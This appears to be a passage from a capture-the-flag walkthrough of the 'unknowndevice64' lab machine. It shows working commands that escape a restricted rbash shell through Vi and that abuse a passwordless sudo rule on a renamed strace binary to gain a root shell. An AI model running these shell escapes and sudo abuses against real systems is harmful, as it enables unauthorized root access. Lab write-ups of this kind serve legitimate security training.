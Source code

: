 Unfortunately, environment variables seem to be read only.

```
ud64@unknowndevice64_v1:~$ export PATH=/bin:/usr/bin:$PATH
-rbash: PATH: readonly variable
ud64@unknowndevice64_v1:~$ export SHELL=/bin/sh
-rbash: SHELL: readonly variable
```

But we can run the Vi text editor. Once in the editor, we can type `:!/bin/sh` and it will grant us an unrestricted shell.

```
sh-4.4$ id
uid=1000(ud64) gid=1000(ud64) groups=1000(ud64)
sh-4.4$ whoami
ud64
sh-4.4$ export PATH=/bin:/usr/bin:$PATH
sh-4.4$ ls -A
.bash_history  .bash_profile  .config  .screenrc  Desktop  Documents  Downloads  Music	Pictures  Public  Videos  prog	web
```

Now, using the [LinEnum.sh script](https://github.com/rebootuser/LinEnum), there's an interesting file that may be worth checking out.

```
[...]
[+] We can sudo without supplying a password!
User ud64 may run the following commands on unknowndevice64_v1:
    (ALL) NOPASSWD: /usr/bin/sysud64
[...]
```

But what is `sysud64`?

```
bash-4.4$ sysud64
sysud64: must have PROG [ARGS] or -p PID
Try 'sysud64 -h' for more information.
bash-4.4$ sysud64 -h
usage: strace [-CdffhiqrtttTvVwxxy] [-I n] [-e expr]...
              [-a column] [-o file] [-s strsize] [-P path]...
              -p pid... / [-D] [-E var=val]... [-u username] PROG [ARGS]
   or: strace -c[dfw] [-I n] [-e expr]... [-O overhead] [-S sortby]
              -p pid... / [-D] [-E var=val]... [-u username] PROG [ARGS]
[...]
```

It seems to be a renamed `strace` binary. [This page](http://blog.securelayer7.net/abusing-sudo-advance-linux-privilege-escalation/) has a few tips on abusing `sudo`. `strace` is one way. Here's how:

```
bash-4.4$ sudo sysud64 -o/dev/null /bin/bash
root@unknowndevice64_v1:/home/ud64# whoami
root
```

And we're in with a root shell!

```
root@unknowndevice64_v1:~# cat flag.txt
<FLAG>
```
